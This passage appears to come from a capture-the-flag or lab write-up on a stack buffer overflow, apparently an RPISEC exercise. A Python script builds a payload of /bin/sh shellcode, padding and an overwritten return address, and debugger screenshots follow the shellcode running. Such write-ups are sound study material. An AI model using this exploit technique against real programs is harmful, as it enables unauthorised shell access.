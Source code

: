 ```py

buf = b''
buf += name		# pass in verify_user_name function
buf += shellcode        # /bin/sh shellcode
buf += b'\n'		# break line to align the buffer
buf += pattern          # buffer to overflow password var
buf += nm		# addr of shellcode in name var


f = open("exp", "wb")
f.write(buf)
```

(shellcode source: https://shell-storm.org/shellcode/files/shellcode-806.html)


After running the python code it sends the buffer to an "exp" file. And the exploration buffer looks like this:


<div class="col-sm mt-3 mt-md-0">
   {% include figure.liquid loading="eager" path="assets/img/expfile.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>



```sh
rpisec + shellcode + pattern + addr of shellcode
```

### Shell time

After running we can see that the shellcode has been stored along with the rpisec string.

<div class="col-sm mt-3 mt-md-0">
   {% include figure.liquid loading="eager" path="assets/img/shellcode1.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


Arriving at the ret main we see that the return address was successfully overwritten.

<div class="col-sm mt-3 mt-md-0">
   {% include figure.liquid loading="eager" path="assets/img/shellcode2.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


Then we see that the shellcode address has been reached and the shellcode instructions are being executed successfully.

<div class="col-sm mt-3 mt-md-0">
   {% include figure.liquid loading="eager" path="assets/img/shellcode3.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


